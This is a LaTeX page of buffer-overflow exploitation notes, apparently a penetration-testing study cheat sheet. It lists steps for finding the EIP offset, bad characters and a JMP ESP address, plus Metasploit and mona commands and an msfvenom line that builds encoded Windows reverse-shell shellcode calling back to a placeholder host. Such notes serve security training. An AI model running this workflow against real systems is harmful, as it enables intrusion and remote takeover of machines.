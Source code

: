 \documentclass[a4paper,12pt, twoside,]{report}
\begin{document}
\newpage
\section{Buffer help}
\begin{enumerate}
	\item Attach Debbuger
	\item Launch POC and look what happens
	\item Pattern create -> find Offset
	\item Test Offset with unique string (remember it reads backwards)
	\item Look for Space -> if 400 Bytes after EIP you are good, otherwise look if other registers point to a place before the EIP were you can write (Double click n Dump address)
	\item Find Bad chars
	\item Search JMP ESP without protection (!mona modules)
	\item Test the JMP with Breakpoint
	\item Build Payload and test it (Don't forget your nops)
\end{enumerate}
\newpage
\subsection{commands}
\begin{lstlisting}[caption={BOF Commands},label=bof1]
*@Creating: (Depending on MSF Version)@*
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb <length> >pattern.txt
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length> >pattern.txt
*@Finding:(Depending on MSF Version)@*
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  <value in EIP> <length>
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <value in EIP>

*@Mona@*
!mona modules
!mona find -s "\xff\xe4" -m <dll or so to search in>
***@FFE4 = "JMP ESP"@***
***@Remember the Big Endian / Low Endian Thing !!!@***

*@Shellcode@*
 msfvenom -p windows/shell_reverse_tcp LHOST=**@<ip>@** LPORT=443 -f c -e x86/shikata_ga_nai -b "***@<badchars>@***" EXITFUNC=thread>shellcode.txt
\end{lstlisting}
\end{document}
